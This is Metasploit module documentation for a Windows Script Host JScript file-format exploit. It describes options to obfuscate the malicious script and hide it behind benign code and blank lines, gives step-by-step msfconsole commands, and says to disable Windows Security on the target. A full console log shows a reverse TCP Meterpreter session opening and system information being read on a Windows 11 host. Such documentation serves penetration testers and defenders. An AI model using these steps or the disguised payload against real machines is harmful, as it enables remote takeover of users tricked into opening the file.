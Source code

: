 ## Vulnerable Application

This module creates a Windows Script Host (WSH) JScript (.js) file.

This module has been tested successfully on:

* Microsoft Windows 7 Professional SP1 (x86_64)
* Microsoft Windows 11 Professional 21H2 (x86_64)


## Options

### FILENAME

The JScript file name. (Default: `msf.js`).

### OBFUSCATE

Enable JavaScript obfuscation. (Default: `true`)


## Advanced Options

### PrependBenignCode

Prepend several lines of benign code at the start of the file. (Default: `true`)

### PrependNewLines

Prepend new lines before the malicious JScript. (Default: `100`)


## Verification Steps

On the Metasploit host:

1. Start msfconsole
1. Do: `use exploit/windows/fileformat/windows_script_host_jscript`
1. Do: `set filename [filename.js]`
1. Do: `set payload [payload]`
1. Do: `set lhost [lhost]`
1. Do: `set lport [lport]`
1. Do: `run`
1. Do: `handler -p [payload] -P [lport] -H [lhost]`

On the target Windows machine:

1. Ensure Windows Security is disabled
1. Ensure Windows Registry `HKCU` and `HKLM` key `SOFTWARE\Microsoft\Windows Script Host\Settings\Enabled` is not present or set to 1
1. Open the `msf.js` file
1. If prompted to choose a program to open the file, select Windows Script Host


## Scenarios

### Microsoft Windows 11 Professional 21H2 (x86_64)

```
msf > use exploit/windows/fileformat/windows_script_host_jscript
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(windows/fileformat/windows_script_host_jscript) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(windows/fileformat/windows_script_host_jscript) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf exploit(windows/fileformat/windows_script_host_jscript) > set lport 4444
lport => 4444
msf exploit(windows/fileformat/windows_script_host_jscript) > run
[+] msf.js stored at /root/.msf4/local/msf.js
msf exploit(windows/fileformat/windows_script_host_jscript) > handler -p cmd/windows/http/x64/meterpreter/reverse_tcp -P 4444 -H 192.168.200.130
[*] Payload handler running as background job 0.

[*] Started reverse TCP handler on 192.168.200.130:4444 
msf exploit(windows/fileformat/windows_script_host_jscript) > 
[*] Sending stage (203846 bytes) to 192.168.200.169
[*] Meterpreter session 1 opened (192.168.200.130:4444 -> 192.168.200.169:49893) at 2025-07-20 09:14:37 -0400

msf exploit(windows/fileformat/windows_script_host_jscript) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : WIN-11-PRO-X64
OS              : Windows 11 21H2 (10.0 Build 22000).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 
```
